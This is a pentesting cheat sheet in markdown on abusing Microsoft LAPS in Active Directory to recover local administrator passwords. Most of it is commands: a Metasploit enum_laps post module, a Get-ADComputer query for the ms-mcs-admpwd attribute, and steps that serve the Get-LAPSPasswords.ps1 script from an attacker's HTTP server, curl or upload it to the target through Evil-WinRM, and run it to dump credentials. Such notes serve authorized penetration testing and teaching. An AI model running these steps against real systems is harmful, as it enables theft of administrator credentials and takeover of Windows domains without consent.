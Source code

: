 ```yaml
---
title: Local Administrator Password Solution (LAPS) Pentesting
desc: 
tags: [Active, Directory, LAPS, PrivEsc, Privilege, Windows]
alts: [Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## Enumeration

1. **Use Metasploit**

    ```sh
    msfconsole
    use post/windows/gather/credentials/enum_laps
    set session 2
    exploit
    ```

<br />

## Exploit

1. **Obtain Administrator's Password**

    1. **Check if You Are in the LAPS_Readers Group**

        ```powershell
        net user <current-username>
        # Global Group memberships  *LAPS_Readers
        ```

    - **Use Get-ADComputer**

        **Get-ADComputer** gets the information of the Active Directory computer.

        ```powershell
        Get-ADComputer -Identity '<active-directory-computer-name>' -property 'ms-mcs-admpwd'
        ```

    - **Use Get-LAPSPasswords.ps1**

        1. **Download the Payload in Local Machine**

            If you are in LAPS_Readers, you can get the administrator's password using **[Get-LAPSPasswords.ps1](https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1){:target="_blank"}**.

            ```sh
            wget https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1
            ```

        2. **Transfer the Payload to Target Machine**

            - **via PowerShell**

                First off, open web server in local machine.

                ```sh
                python3 -m http.server 8000
                ```

                Then curl in target machine

                ```powershell
                curl http://<local-ip>:8000/Get-LAPSPasswords.ps1 -o .\Get-LAPSPasswords.ps1
                ```

            - **via Evil-WinRM**

                If you connect the remote Windows machine with Evil-WinRM, you can use directly by adding **-s** flag when connecting.

                ```powershell
                evil-winrm -i <target-ip> -u username -p password -s /path/to/current/directory
                ```

                Then just execute the payload in evil-winrm console.

                ```powershell
                PS > upload .\Get-LAPSPasswords.ps1 c:\Users\<username>\Desktop\Get-LAPSPasswords.ps1
                ```

        3. **Execute the Payload in Target Machine**

            ```powershell
            .\Get-LAPSPasswords.ps1
            ```